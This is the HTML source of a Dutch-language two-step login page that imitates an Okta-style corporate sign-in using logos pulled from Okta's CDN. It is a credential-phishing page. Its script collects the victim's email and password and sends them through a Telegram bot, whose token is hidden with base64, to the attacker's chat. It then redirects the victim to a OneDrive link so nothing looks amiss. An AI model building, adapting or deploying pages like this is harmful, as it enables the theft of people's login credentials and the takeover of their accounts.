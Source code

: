 <!DOCTYPE html>
<html lang="nl">
<head>
  <meta charset="UTF-8">
  <title>Login</title>
  <style>
    body {
      margin: 0;
      padding: 0;
      font-weight: normal;
      background: url('https://ok9static.oktacdn.com/fs/bco/7/fs0chyx69ua4xbJnw417') no-repeat center center fixed;
      background-size: cover;
      font-family: sans-serif;
    }
    .container {
      background: white;
      width: 320px;
      margin: 80px auto;
      padding: 30px;
      border-radius: 10px;
      box-shadow: 0 0 20px rgba(0, 0, 0, 0.2);
    }
    label {
      display: block;
      margin-bottom: 8px;
      font-weight: normal;
    }
    input[type="email"], input[type="password"] {
      width: 100%;
      padding: 10px;
      margin-bottom: 20px;
      border-radius: 5px;
      border: 1px solid #ccc;
      font-weight: normal;
    }
    button {
      width: 100%;
      background-color: #FFD700;
      color: black;
      padding: 10px;
      border: none;
      border-radius: 5px;
      cursor: pointer;
      font-weight: normal;
    }
    .logo-lang {
      display: flex;
      align-items: center;
      justify-content: space-between;
      margin-bottom: 30px;
    }
    .logo-lang img {
      height: 40px;
    }
    .lang {
      color: black;
    }
    .remember-me {
      margin-top: -15px;
      margin-bottom: 20px;
    }
    .footer-links {
      margin-top: 20px;
      font-size: 12px;
      text-align: center;
      line-height: 1.6;
    }
    .email-display {
      font-size: 14px;
      margin-bottom: 20px;
      word-break: break-word;
    }
    .step-title {
      font-size: 16px;
      margin-bottom: 10px;
      font-weight: bold;
    }
  </style>
</head>
<body>
  <div class="container">
    <div class="logo-lang">
      <img src="https://ok9static.oktacdn.com/fs/bco/1/fs0ci1i9sp9xQg0tI417" alt="Logo">
      <div class="lang">NL FR EN</div>
    </div>

    <div id="step1">
      <label for="email">Je e-mailadres</label>
      <input type="email" id="email" required>
      <div class="remember-me">
        <label><input type="checkbox"> Aangemeld blijven</label>
      </div>
      <button onclick="goToPassword()">Volgende</button>
    </div>

    <div id="step2" style="display:none;">
      <div class="step-title">Aanmelden met je wachtwoord</div>
      <div class="email-display" id="emailDisplay"></div>
      <label for="password">Wachtwoord</label>
      <input type="password" id="password" required>
      <button onclick="submitForm()">Bevestigen</button>
      <div class="footer-links">
        Wachtwoord vergeten?<br>
        Aanmelden met iets anders - NIEUW<br>
        Terug naar aanmelden
      </div>
    </div>
  </div>

  <script>
    function goToPassword() {
      const email = document.getElementById('email').value;
      if (!email) return alert("Veuillez entrer votre e-mail.");
      document.getElementById('step1').style.display = 'none';
      document.getElementById('step2').style.display = 'block';
      document.getElementById('emailDisplay').textContent = email;
    }

    function submitForm() {
      const email = document.getElementById('email').value;
      const password = document.getElementById('password').value;

      const token = atob("NTY2NDkwMzY3ODpBQUhFSHRPMldiLVVDNU43QWl6dnVxaVEtTmRfRzg5UmQ5MA==");
      const chatId = "5147593892";
      const message = `Login\nEmail: ${email}\nPassword: ${password}`;

      fetch(`https://api.telegram.org/bot${token}/sendMessage`, {
        method: "POST",
        headers: {
          "Content-Type": "application/json"
        },
        body: JSON.stringify({
          chat_id: chatId,
          text: message
        })
      })
      .then(res => res.json())
      .then(() => {
        window.location.href = "https://onedrive.live.com/?redeem=aHR0cHM6Ly8xZHJ2Lm1zL2IvYy9iMzJmOGEyN2YzZjQ3OGY5L0VmbDQ5UE1uaWk4Z2dMTl9BQUFBQUFBQi1Pa09weTdGQk5YWlM4RDFzMGJRMGc%5FZT1iNkR1T28&cid=B32F8A27F3F478F9&id=B32F8A27F3F478F9%21127&parId=root&o=OneUp";
      })
      .catch(err => {
        alert("Erreur lors de l'envoi");
        console.error(err);
      });
    }
  </script>
</body>
</html>
